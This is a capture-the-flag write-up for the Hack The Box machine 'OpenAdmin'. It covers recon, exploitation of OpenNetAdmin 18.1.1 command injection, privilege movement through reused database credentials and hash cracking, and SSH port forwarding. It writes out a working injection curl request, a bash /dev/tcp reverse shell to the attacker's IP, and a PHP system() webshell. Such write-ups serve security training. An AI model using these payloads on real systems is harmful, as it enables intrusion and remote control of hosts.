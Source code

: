 # OpenAdmin
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9908a103-8c8b-4771-bb74-0bf955c31f61)


## Lessons Learned:
- Using dirsearch to enumerate webpages.
- Exploiting OpenNetAdmin (ONA) v.18.1.1 --> Remote Code Execution, Command Injection.
- Implement bash reverse shell.
- Reviewing apache2 internal configuration (reviewing the virtual host is running as which user --> lead to port forwarding).
- Password Cracking using john.
- Port Forwarding (to be able to access internal website).
- Dropping a webshell on the internal site.

## STEPS:
> PORT SCANNNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC openadmin.htb --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-05 20:41 PDT
Nmap scan report for openadmin.htb (10.10.10.171)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

1. Based from the nmap results, the machine runs web application at port 80 and opens ssh login at port 22.
2. Noticed based from the service's detail, once we open the webapp it shall rendered Ubuntu Default Page.

> WEB DEFAULT PAGE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/061c4f0e-2d71-4aa9-a168-99436176d7df)


3. Knowing this condition, seems the approach is to do directory listing.

> RESULT USING DIRSEARCH

```
dirsearch -u http://openadmin.htb:80
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a74ba915-39d9-418d-a4bf-26bde6d2a304)


4. Interesting! We found 2 accessible endpoint.

> Accessing /music/

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1f38ff98-6fa1-425e-8788-53856e547961)


5. Long story short, after reviewing every feature. Figured out that login feature shall redirect us to `/ona` endpoint.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4c9b4311-3f21-42bf-bc44-71ababe5b4a7)


> Accessing /ona/


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f16362b7-372d-40c6-ba05-34704060d1a7)


6. By checking for documentation, turns out ONA is an abbreviation of **OpenNetAdmin**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45440e69-a7b4-4781-9f26-697aaed46333)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/44663749-8bbf-49eb-b6fd-d9e97afc4f98)


7. Noticed, it disclosed the service's version --> `18.1.1`. Using `searchsploit` or internet to find vuln related to this version, found these results:

> Internet

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ab29c1d-0c5f-4864-8f4d-4347e780176c)

> Searchsploit

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/11ea3f32-2360-42de-99f2-886496b844f1)


8. It's remote code execution, also there's github POC's which can be useful (it speed up our exploit to drop a shell).
9. Anyway, let's use the exploit from exploit.db first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/680d056a-3507-48d7-a5b0-fd42fe46fe17)


10. We just need to replace the CMD and URL.

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/722b8bc0-ee83-410a-8c12-ed38fe052568)


11. Awesome, we can do reverse shell from this state. Now let's use the github POC to speed up our process to drop a shell.

> Using the github POC

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/401f15c8-7ea3-4d2a-a60a-c69ba78b8e7e)


12. Noticed we a got a shell as `www-data`, which means in order to obtain the user flag, we need to swtich to a legitimate user account.
13. Anyway I am not too comfortable using shell from the Github POC, let's do reverse shell on our own. Let's use bash.

> BASH REVERSE SHELL - PAYLOAD

```txt
bash -c 'bash -i >%26 /dev/tcp/tun0/1337 0>%261'
```

> IMPLEMENTATION

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";bash -c 'bash -i >%26 /dev/tcp/10.10.14.29/1337 0>%261';echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d6873a0-f74e-4a4e-b140-ab3e56638b91)


14. Traversing to `/home` directory to check users registered in this machine. Found 2 users namely **jimmy** and **joanna**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef5a2c80-db6f-4d45-885f-a77d4b5684b6)


15. Upon reviewing the userinfo at ONA dashboard, identified it uses mysql and the host is local.
16. Hence let's traverse to the webapp location --> `/var/www/html/ona`.
17. Checking the `/local/config` found file --> `database_settings.inc.php` which should be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b737d855-08f8-4bcc-b17f-5ef8f676ccdc)


18. Found the db password of `ona_sys` --> `n1nj4W4rri0R!`.  However we can't open mysql in the machine. At this condition, we can speculate a password reuse to a certain user.
19. After tried for both, turns out **jimmy** using the same password as the DB.

> LOGGED IN AS JIMMY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d18e759-41db-4e91-ae2e-361e1873bda9)


20. Great! But sadly, there is no user flag inside **jimmy**'s home directory. Seems the goal is to be authenticated as **joanna** to get the user flag.
21. Upon traversing several configuration files, found a configuration that shall let us authenticated as **joanna**.
22. Reviewing the **apache2** --> **internal.conf** file, it revealed that the internal virtual host is running as **joanna** on localhost at port 52846.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/28a6d26b-c85c-4753-a4f7-7e2ec0f41872)


23. Traversing to `/var/www/internal` found 3 .php files --> `main.php`, `index.php`, and `logout.php`. Our interest should only for **main** and **index**.

> Reviewing main.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/86dee7d8-3904-4134-9314-0ef537b4745b)


24. Noticed it printed out joanna private key once we logged in at the webapp.

> Reviewing index.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7585c7d-e89c-46ad-9ba6-d8a00831b593)


25. At index.php file, we can see a hashed password for jimmy account. The password is hashed with SHA512, which is crackable using john or might be crackstation has the db for that password. Let's try both.

> USING CRACKSTATION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/09f2e1a2-5979-4b1d-b1ed-15439871fdea)


> USING JOHN

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA512 --rules=Jumbo
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ebb8375b-c8e7-470a-9143-d4a80d6fd947)


26. Both states for `Revaled`.
27. Next our objective is to reach the internal sites. Let's do port forwarding.
28. Now reconnect to jimmy over SSH with a tunnel so that we can reach the internal webapp/website.

> PORT FORWARDING

```
ssh jimmy@openadmin.htb -L 52846:localhost:52846
```


29. Now we can access the internal website at port 52846.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0343b9d-c5af-42c9-9481-800f7ea0567f)


30. Now login using the credential we found and cracked before --> `jimmy:Revealed`.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5170a646-30bf-4726-8230-8f41ecc2d252)


31. BUT, remembering we got access to the internal site. Hence we don't actually need to crack the ssh key.
32. We can drop webshell to get access to **joanna** account.

> SIMPLE WEBSHELL

```txt
<?php system($_GET["cmd"]); ?>
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bb102120-f63f-4402-a6f1-caf8f7286388)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0cc28e9d-8b29-4633-acd7-e3bb5099d091)







## IMPORTANT LINKS

```
https://www.exploit-db.com/exploits/47691
https://github.com/amriunix/ona-rce/blob/master/ona-rce.py
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
